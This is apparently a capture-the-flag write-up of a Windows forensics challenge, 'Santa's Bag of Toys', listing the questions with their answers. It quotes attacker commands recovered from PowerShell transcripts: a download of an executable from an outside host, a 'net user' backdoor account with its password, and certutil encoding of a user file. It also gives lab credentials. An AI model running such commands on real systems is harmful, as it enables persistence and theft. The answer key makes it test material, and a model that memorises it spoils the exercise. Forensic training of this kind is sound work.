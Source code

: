 ## Topic: Special by John Hammond
### Challenge Name: Santa's Bag of Toys

Add powershell transcription: 
```
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0x1 /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v OutputDirectory /t REG_SZ /d C:/ /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableInvocationHeader /t REG_DWORD /d 0x1 /f
```

Find malware being downloaded in one of the powershell transcription:  
`(New-Object Net.WebClient).DownloadFile("https://sam.gleske.net/uharc/uharc-cmd-install.exe", "C:\`  
Find user being created in another transcript:  
`net user s4nta grinchstolechristmas /add`  
Using certutil to encode a file:  
`certutil.exe -encode .\UsrClass.dat santa.dat`  

### Questions:
1. _**If you want to RDP into the machine, start the AttackBox and enter the following into a terminal: xfreerdp /u:Administrator /p:grinch123! /v:10.10.24.161 -** The credentials for the machine are Administrator as the username, and grinch123! as the password.
2. **What operating system is Santa's laptop running ("OS Name")?**  
answer: `Microsoft Windows 11 Pro`  
3. **What was the password set for the new "backdoor" account?**
answer: `grinchstolechristmas`
4. In one of the transcription logs,  the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, **what is the full path of the original file?**
answer:`C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat`
5. The actor uses a [Living Off The Land](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. **What is the name of this LOLbin?**  
answer: `certutil.exe`  
6. Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. **What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?**  
answer: `.github`  
7. Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder?  
answer: `bag_of_toys.zip`  
8. **What is the name of the user that owns the SantaRat repository?**  
answer: `grinchiest`  
9. Explore the other repositories that this user owns. **What is the name of the repository that seems especially pertinent to our investigation?**  
answer: `operation-bag-of-toys`  
10. **What is the name of the _executable_ that installed a unique utility the actor used to collect the bag of toys?**  
answer: `.\uharc-cmd-install.exe`  
11. Following this, the actor looks to have removed everything from the bag of toys, and added in new things like coal, mold, worms, and more!  **What are the contents of these "malicious" files (coal, mold, and all the others)?**  
answer: `GRINCHMAS`  
12. **What is the password to the original bag_of_toys.uha archive?** (You do not need to perform any password-cracking or bruteforce attempts)  
answer: `TheGrinchiestGrinchmasOfAll`  
13. **How many original files were present in Santa's Bag of Toys?**  
answer: `228`  
